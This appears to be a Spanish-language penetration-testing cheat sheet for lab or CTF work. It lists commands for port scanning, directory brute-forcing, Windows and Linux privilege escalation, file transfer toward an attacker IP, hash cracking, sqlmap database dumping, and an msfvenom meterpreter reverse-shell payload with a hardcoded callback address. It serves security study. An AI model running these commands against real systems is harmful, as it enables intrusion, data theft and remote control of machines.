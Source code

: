 ## Identificar puertos abeirtos
```sh
nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn -oG allPorts
```
-oG se guarda en formato grepeable para poder extraer los puertos con extractports \
-sS escaneo sigiloso \
-p- escanea todos los puertos --open \
-min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo \
-n No realiza resolución DNS \
-vvv Muestra resultados muy detallados \
-Pn Desactiva la detección de hosts

## Identificar versiones de los puertos abiertos
```sh
nmap -sV -sC -p<puertos separados por ,> -n -v -Pn -oA scan
```
-sV deteccion de versiones \
-sC ejecuta scripts por defecto \
-n No realiza resolución DNS \
-v muestra resultados detallados \
-Pn Desactiva la detección de hosts\

## Scripts con nmap
```sh
nmap --script "vuln and safe" -p
```
## Gobuster
```sh
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
```
dir para directorio
-u para la url\
-w para pasarle el diccionario\
-x para agregar .txt a todos los datos del diccionario\
-t para los hilos\
| grep -v "301" para no mostrar los status

## Colocarse en escucha
```sh
nc -lvnp <puerto>
```

## Abrir un servidor para transferir archivos
```sh
python3 -m http.server <puerto>
```

## Escalacion de privilegios en Windows (Windows-Exploit-Suggester)
Revissar version   systeminfo\
En el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
```sh
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d <archivo descargado> -i systeminfo.txt
```

privilegios whoami /priv\
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) \(https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)\
o printspoofer\
winpeas

## Transferir archivos de linux a windows
En linux abrir un servidor\
Windows:
```sh
certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
```

linux:
```sh
impacket-smbserver recurso $(pwd) -smb2support
```
windows:
```sh
copy \\<ip atacante>\recurso\archivo.extension archivo.extension
```

## Transferir archivos de linux a linux
Abrir servidor\
recibir:
```sh
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension
```

## Escalar privilegios en linux
Permisos sudo: 
```sh
sudo -l
```
Permisos suid: 
```sh
find / -type f -perm -4000 -ls 2>/dev/null
```
listar tareas predefinidas : 
```sh
cat /etc/crontab
```
Linux versiones anteriores 
```sh
searchsploit dirty cow
```

## Pasar de hexadecimal a normal
Linux versiones anteriores 
```sh
echo "486f6c61206d756e646f" | xxd -r -p
```

## Pasar de base 64 a normal
```sh
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
```

## Decifrar hash
Saber el tipo de hash
```sh
hashid hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256
```

## Reverseshell msfvenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx
```

## mejorar bash
```sh
script /dev/null -c bash
```
crtl + z
```sh
stty raw -echo; fg
```
```sh
reset xterm
```
```sh
export TERM=xterm
```
En la terminal del atacante para saber el tamaño de nano
```sh
stty size
```
En la terminal de la victima para ajustar el tamaño de nano
```sh
stty rows <rows> columns <columns>
```

##  Listar puertos ocultos
```sh
netstat -na -p tcp
```

## Sql map
Con burpsuite ver la peticion y descargar el archivo como request.txt
```sh
sqlmap -r request.txt --dbms=mysql --dump
```

## Listar smb
Ver recursos compartidos
```sh
smbclient -L ip
```
```sh
smbclient  //ip/recurso
```
Descargar archivo
```sh
get archivo
```
Subir archivo 
```sh
put archiv
```







